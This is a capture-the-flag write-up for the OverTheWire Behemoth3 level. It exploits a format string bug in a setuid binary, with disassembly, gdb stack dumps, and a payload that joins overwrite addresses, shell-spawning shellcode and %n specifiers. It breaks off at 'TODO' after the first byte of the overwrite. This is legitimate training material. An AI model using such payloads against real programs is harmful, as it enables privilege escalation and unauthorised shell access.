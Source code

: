 #Behemoth3

behemoth.labs.overthewire.org

**Username:** behemoth3
**Password:** see [behemoth2](https://github.com/Alpackers/CTF-Writeups/tree/master/Misc/OverTheWire/Behemoth/Behemoth2)
**Description:**  

This wargame deals with a lot of regular vulnerabilities found commonly 'out in the wild'. While the game makes no attempts at emulating a real environment it will teach you how to exploit several of the most common coding mistakes including buffer overflows, race conditions and privilege escalation. 

##Write-up

You know the routine by now.

```
# file behemoth3
behemoth3: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=c5dbd3c173034d55cfef4bb66829b1bd1ec42d22, not stripped
```

```
# ~/checksec.sh --file behemoth3
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   behemoth3
```

```
# ./behemoth3 
Identify yourself: AAAA
Welcome, AAAA

aaaand goodbye again.
```

Let's throw in the psudeocode for ```main``` just for good measure.

```C
int main(int arg0) {
    printf("Identify yourself: ");
    eax = *__TMC_END__;
    fgets(((esp & 0xfffffff0) - 0xe0) + 0x18, 0xc8, eax);
    printf("Welcome, ");
    printf(((esp & 0xfffffff0) - 0xe0) + 0x18);
    puts("\naaaand goodbye again.");
    return 0x0;
}
```

A quick try of a few commands and we are well on our way.

```
# python -c 'print "A"*1000' | ./behemoth3
Identify yourself: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
aaaand goodbye again.
```

Clear it's not a buffer overflow.

```
# python -c 'print "A"*4+"%x"*10' | ./behemoth3
Identify yourself: Welcome, AAAAc8f778fc2000f77db0004141414178257825782578257825782578257825

aaaand goodbye again.
# python -c 'print "A"*4+"%x"*6' | ./behemoth3
Identify yourself: Welcome, AAAAc8f777cc2000f77c800041414141

aaaand goodbye again.
```

And even more clear that we're dealing with a string format vulnerability.  It looks like our ```0x41414141``` is popped off after 6 ```%x```.  We can definately reference back to [narnia7](https://github.com/Alpackers/CTF-Writeups/tree/master/Misc/OverTheWire/Narnia/Narnia7) for this one. Let's first try to locate the memory address where our input starts as that will likely be where we want to point back to.

```asm
             main:
0804847d         push       ebp                                                 ; XREF=_start+23
0804847e         mov        ebp, esp
08048480         and        esp, 0xfffffff0
08048483         sub        esp, 0xe0
08048489         mov        dword [ss:esp], 0x8048570                           ; "Identify yourself: ", argument "format" for method j_printf
08048490         call       j_printf
08048495         mov        eax, dword [ds:__TMC_END__]                         ; __TMC_END__
0804849a         mov        dword [ss:esp+0x8], eax                             ; argument "stream" for method j_fgets
0804849e         mov        dword [ss:esp+0x4], 0xc8                            ; argument "size" for method j_fgets
080484a6         lea        eax, dword [ss:esp+0x18]
080484aa         mov        dword [ss:esp], eax                                 ; argument "str" for method j_fgets
080484ad         call       j_fgets
080484b2         mov        dword [ss:esp], 0x8048584                           ; "Welcome, ", argument "format" for method j_printf
080484b9         call       j_printf
080484be         lea        eax, dword [ss:esp+0x18]
080484c2         mov        dword [ss:esp], eax                                 ; argument "format" for method j_printf
080484c5         call       j_printf
080484ca         mov        dword [ss:esp], 0x804858e                           ; "\\naaaand goodbye again.", argument "s" for method j_puts
080484d1         call       j_puts
080484d6         mov        eax, 0x0
080484db         leave      
080484dc         ret        
                        ; endp
```

We can set a breakpoint after we read our input and examine the stack.

```
# python -c 'print "A"*4+"%x"*6' > input
# gdb behemoth3
(gdb) break * 0x080484b2
Breakpoint 1 at 0x80484b2
(gdb) run < input
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/CTF/OverTheWire/behemoth/behemoth3 < input

Breakpoint 1, 0x080484b2 in main ()
(gdb) x/25x $esp
0xffffd170:	0xffffd188	0x000000c8	0xf7fb1c20	0x00000000
0xffffd180:	0x00000000	0xf7ffd000	0x41414141	0x78257825
0xffffd190:	0x78257825	0x78257825	0xffff000a	0x08048200
0xffffd1a0:	0xffffd208	0xf7ffda8c	0x00000000	0xf7fd9b58
0xffffd1b0:	0x00000001	0x00000000	0x00000001	0xf7ffd930
0xffffd1c0:	0xf7ff6300	0x00000000	0xf7e0a940	0x00000001
0xffffd1d0:	0x00000003
```

Looks like our input starts at ```0xffffd188```.  Our payload should look something like ```<address of first byte>JUNK<address of second byte>JUNK<address of third byte>JUNK<address of fourth byte><shellcode>%x%x%x%<first width>x%n%<second width>x%n%<third width>x%n%<fourth width>x%n```.  This means our shellcode should start at ```0xffffd1a4``` if we did our math right.  Now let's find out where the return address is.

```
(gdb) break * 0x80484dc
Breakpoint 1 at 0x80484dc
(gdb) run
Starting program: /root/CTF/OverTheWire/behemoth/behemoth3 
Identify yourself: Test
Welcome, Test

aaaand goodbye again.

Breakpoint 1, 0x080484dc in main ()
(gdb) x/10x $esp
0xffffd25c:	0xf7e24a63	0x00000001	0xffffd2f4	0xffffd2fc
0xffffd26c:	0xf7feb7da	0x00000001	0xffffd2f4	0xffffd294
0xffffd27c:	0x08049798	0x08048230
```

So basically our goal is to overwrite ```0xffffd25c``` with ```0xffffd1a4```.  Let's go ahead and try to calculate our first width.  To do that we need to find out what gets written by default, and the use the ```"the byte to be written" - "the outputted byte" + 8``` formula.

```
# python -c 'print "\x5c\xd2\xff\xffJUNK\x5d\xd2\xff\xffJUNK\x5e\xd2\xff\xffJUNK\x5f\xd2\xff\xff"+"\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80"+"%x"*4+"%8x%n"' > input
```
```
(gdb) run < input
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /root/CTF/OverTheWire/behemoth/behemoth3 < input
Identify yourself: Welcome, \���JUNK]���JUNK^���JUNK_���1ۍC�̀1�Qhn/shh//bi�A
                                                                            ��̀c8f7fb1c2000f7ffd000

aaaand goodbye again.

Breakpoint 1, 0x080484dc in main ()
(gdb) x/10x $esp
0xffffd25c:	0x0000004c	0x00000001	0xffffd2f4	0xffffd2fc
0xffffd26c:	0xf7feb7da	0x00000001	0xffffd2f4	0xffffd294
0xffffd27c:	0x08049798	0x08048230
(gdb) p 0xa4 - 0x4c + 8
$1 = 96
```
```
# python -c 'print "\x5c\xd2\xff\xffJUNK\x5d\xd2\xff\xffJUNK\x5e\xd2\xff\xffJUNK\x5f\xd2\xff\xff"+"\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80"+"%x"*4+"%96x%n"' > input
```
```
(gdb) run < input
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /root/CTF/OverTheWire/behemoth/behemoth3 < input
Identify yourself: Welcome, \���JUNK]���JUNK^���JUNK_���1ۍC�̀1�Qhn/shh//bi�A
                                                                            ��̀c8f7fb1c2000                                                                                        f7ffd000

aaaand goodbye again.

Breakpoint 1, 0x080484dc in main ()
(gdb) x/10x $esp
0xffffd25c:	0x000000a4	0x00000001	0xffffd2f4	0xffffd2fc
0xffffd26c:	0xf7feb7da	0x00000001	0xffffd2f4	0xffffd294
0xffffd27c:	0x08049798	0x08048230
```

Perfect.  We got our first byte done.  The to calculate the rest.  The other bytes will follow the format of ```"the byte we want to write" - "the previous byte"```.

TODO
